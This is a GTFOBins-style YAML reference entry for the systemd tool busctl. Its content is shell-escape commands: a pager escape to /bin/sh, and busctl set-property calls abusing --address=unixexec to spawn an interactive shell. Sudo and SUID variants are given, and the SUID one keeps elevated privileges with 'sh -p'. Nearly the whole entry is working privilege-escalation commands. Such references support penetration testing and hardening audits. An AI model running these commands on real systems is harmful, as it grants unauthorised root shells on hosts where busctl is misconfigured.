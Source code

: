 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        busctl --show-machine
        !/bin/sh
    - code: |
        busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
  sudo:
    - code: |
        sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
  suid:
    - code: |
        ./busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-pc,argv2='/bin/sh -p -i 0<&2 1>&2'
---
```

